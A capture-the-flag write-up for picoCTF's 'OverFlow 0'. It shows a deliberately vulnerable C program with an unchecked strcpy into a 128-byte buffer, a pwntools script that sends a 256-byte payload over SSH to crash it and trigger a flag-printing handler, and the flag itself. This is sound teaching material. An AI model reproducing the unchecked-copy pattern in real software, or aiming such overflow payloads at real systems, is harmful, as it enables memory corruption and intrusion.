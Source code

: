 # OverFlow 0 - Points: 100

## Description

This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. Source.

## Solution

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

We can see that the source code contains a handler for the ```SIGSEGV``` error code, which is thrown for buffer overflows.

```c
signal(SIGSEGV, sigsegv_handler);
```

This handler is our "win" function and contains instructions to print the flag.

```c
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

We can also see that the ```vuln()``` function uses ```strcpy()``` to copy the first argument into a char array with a size of 128.
This can be used to cause a buffer overflow as the length of the first argument is never checked, allowing ```strcpy()``` to write past the end of the buffer.

We can cause a segmentation fault to occur by passing an argument somewhat larger than the buffer size.

## Exploit script

I used pwntools to connect to the shell server and called the function with an argument of length 256 to ensure a segmentation fault error.

```py
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa'

print("running vuln")
print("sending payload")
payload = 'A' * 256
vuln = conn.process([location + '/vuln', payload], cwd = location)

flag = vuln.recvline().decode()[:-1]
print(flag)

print("done")
```

## Flag

```picoCTF{3asY_P3a5yd2b59a57}```

